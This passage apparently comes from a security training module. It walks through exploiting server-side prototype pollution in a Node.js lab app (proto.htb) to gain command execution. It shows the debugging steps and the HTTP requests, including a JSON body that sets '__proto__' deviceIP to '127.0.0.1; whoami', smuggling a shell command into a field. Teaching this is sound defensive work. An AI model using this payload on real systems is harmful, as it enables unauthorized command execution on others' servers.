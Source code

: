 ```javascript
        res.status(500).send({
            error: "Something went wrong!",
        });
    }
});

```

Here, a new user is registered without the `deviceIP` property. Thus, it is set to `null`. If this user is converted to an object of the `User` class in the `init` function, the resulting user object does not contain a `deviceIP` property. We can confirm this using VS Code's debug console by setting an appropriate breakpoint and checking out the variable value:

![image](x5Q21ASs2W9O.png)

The prototype of the `userObject` variable is the `User.prototype` object, which is the prototype of the `User` function. This is an ideal target since we want to pollute the `User.prototype.deviceIP` property. As discussed in the previous section, we should avoid moving further up the prototype chain than is required to avoid breaking any web application functionality. Again, let us confirm the attack vector by polluting the prototype using the debug console:

![image](5F90aRXbY8Dh.png)

After continuing, we can see the output of our injected command in the web application's response, even though we have not configured a device IP for the newly registered user, thus confirming a prototype pollution RCE vector:

![](5uXi6ULiN1SM.png)

* * *

## Exploitation

Now that we have planned our exploit let us move on to the actual exploitation. First, we will register a new user with the following request:

```http
POST /register HTTP/1.1
Host: proto.htb
Content-Length: 35
Content-Type: application/json

{"username":"pwn","password":"pwn"}

```

After logging in, we can pollute the `User.prototype.deviceIP` property by sending the following request:

```http
POST /update HTTP/1.1
Host: proto.htb
Content-Length: 48
Content-Type: application/json
Cookie: session=eyJhbGciOiJIUzI1NiIsInR5cCI6IkpXVCJ9.eyJ1c2VybmFtZSI6InB3biIsImlhdCI6MTY4MTA3MjgxMCwiZXhwIjoxNjgxMDc2NDEwfQ.q1dbloU9k06dAymKHXvMvVrpEeYWRXABx9sK7qG6CWg

{"__proto__":{"deviceIP":"127.0.0.1; whoami"}}

```
